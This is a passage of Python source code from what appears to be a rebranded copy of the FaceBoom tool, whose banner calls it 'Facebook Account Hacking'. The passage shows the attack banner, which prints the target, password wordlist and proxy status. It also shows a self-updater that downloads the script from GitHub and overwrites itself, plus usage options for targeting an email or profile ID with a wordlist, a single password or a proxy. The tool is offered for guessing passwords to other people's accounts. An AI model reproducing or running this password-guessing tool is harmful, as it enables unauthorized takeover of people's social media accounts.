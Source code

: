   _______  _____  _______    _  _________  ____  ___
 / ___/\ \/ / _ )/ __/ _ \  / |/ /  _/ _ \/ __ \/ _ )
/ /__   \  / _  / _// , _/ /    // // , _/ /_/ / _  |⚡
\___/   /_/____/___/_/|_| /_/|_/___/_/|_|\____/____/Boss
=================================================
[---]         Author : Cyber Nirob          [---]
=================================================
[---]         HridoY Ahammed Nirob          [---]
=================================================
[---]  """+yl+"""      Facebook Account Hacking"""+gr+"""       [---]
=================================================
[>] Target ID Username  :> """+wi+target+gr+"""
{}""".format("[>] Password List       :> "+yl+str(wordlist) if not single_passwd else "[>] Password    :> "+yl+str(single_passwd))+gr+"""
[>] ProxyStatus         :> """+str(proxystatus)+wi)
        if not single_passwd:
            print(gr+"""\
================================================="""+wi+"""
[~] """+yl+"""Hacking Permission"""+gr+""" [Activated] """+wi+"""[~]"""+gr+"""
=================================================\n"""+wi)
        else:print("\n")


    @staticmethod
    def updateFaceBoom():
        if not os.path.isfile(versionPath):
             errMsg("Unable to check for updates: please re-clone the script to fix this problem")
             sys.exit(1)
        write("[~] Checking for updates...\n")
        conn = httplib.HTTPSConnection("raw.githubusercontent.com")
        conn.request("GET", "/Oseid/FaceBoom/master/core/version.txt")
        repoVersion = conn.getresponse().read().strip().decode()
        with open(versionPath) as vf:
            currentVersion = vf.read().strip()
        if repoVersion == currentVersion:write("  [*] The script is up to date!\n")
        else:
                print("  [+] An update has been found ::: Updating... ")
                conn.request("GET", "/Oseid/FaceBoom/master/faceboom.py")
                newCode = conn.getresponse().read().strip().decode()
                with open("faceboom.py", "w") as  faceBoomScript:
                   faceBoomScript.write(newCode)
                with open(versionPath, "w") as ver:
                     ver.write(repoVersion)
                write("  [+] Successfully updated :)\n")

parse = optparse.OptionParser(wi+"""
Usage: python ./faceboom.py [OPTIONS...]
-------------
OPTIONS:
       |
    |--------
    | -t <target email> [OR] <FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID
    |--------
    | -w <wordlist Path>                      ::> Specify Wordlist File Path
    |--------
    | -s <single password>                    ::> Specify Single Password To Check
    |--------
    | -p <Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)
    |--------
    | -g <TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID
    |--------
    | -u/--update                             ::> Update FaceBoom Script
-------------
Examples: